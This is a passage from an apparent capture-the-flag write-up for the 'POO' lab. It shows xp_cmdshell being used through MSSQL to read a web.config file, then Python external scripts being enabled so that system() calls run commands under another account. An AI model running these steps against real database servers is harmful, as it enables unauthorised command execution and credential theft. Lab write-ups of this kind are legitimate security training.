 We can't read anything interesting with this user: 

```
PS C:\Users\snowscan> get-sqlquery -verbose -instance $i -username $user -password $pass -query "xp_cmdshell 'type c:\\inetpub\\wwwroot\\web.config'"
VERBOSE: 10.13.38.11,1433 : Connection Success.

output
------
Access is denied.
```

We'll need to look for another way in.

### Python to the rescue

MSSQL supports python, we can find the local administrator password by doing `system()` calls.

[http://www.nielsberglund.com/2017/04/20/sql-server-2017-python-executing-from-sql/](http://www.nielsberglund.com/2017/04/20/sql-server-2017-python-executing-from-sql/)

First, we need to make sure Python is enabled on the MSSQL server:

```
EXEC sp_configure  'external scripts enabled', 1
RECONFIGURE  WITH OVERRIDE  
```

![MSSQL](/assets/images/htb-writeup-poo/Screenshot_12.png)

Next, let's execute a simple script that'll do a `system()` call and run Windows commands:

![MSSQL](/assets/images/htb-writeup-poo/Screenshot_13.png)

So, the script is running as a different user than `xp_cmdshell` commands, we are now `POO_PUBLIC01`

